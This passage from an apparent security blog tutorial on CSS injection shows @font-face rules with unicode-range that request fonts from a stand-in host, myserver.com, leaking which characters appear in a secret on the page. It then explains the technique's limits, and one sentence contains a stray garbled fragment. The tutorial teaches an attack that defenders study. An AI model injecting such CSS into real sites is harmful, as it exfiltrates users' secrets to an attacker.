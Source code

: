 ``` html
        unicode-range: U+32;
      }

      @font-face {
        font-family: "f3";
        src: url(https://myserver.com?q=3);
        unicode-range: U+33;
      }

      @font-face {
        font-family: "fa";
        src: url(https://myserver.com?q=a);
        unicode-range: U+61;
      }

      @font-face {
        font-family: "fb";
        src: url(https://myserver.com?q=b);
        unicode-range: U+62;
      }

      @font-face {
        font-family: "fc";
        src: url(https://myserver.com?q=c);
        unicode-range: U+63;
      }

      div {
        font-size: 4em;
        font-family: f1, f2, f3, fa, fb, fc;
      }
    </style>
    Secret: <div>ca31a</div>
  </body>
</html>
```

If you check the network tab, you will see a total of 4 requests sent:

![network](/img/css-injection-2/p1.png)

With this trick, we can know that there are 13ac four characters on the page.

The limitation of this trick is obvious:

1. We don't know the order of the characters.
2. We don't know the repeated characters.

However, thinking about how to steal characters from the perspective of "loading fonts" has really brought a new way of thinking to many people and has developed various other methods.

### Font height difference + first-line + scrollbar
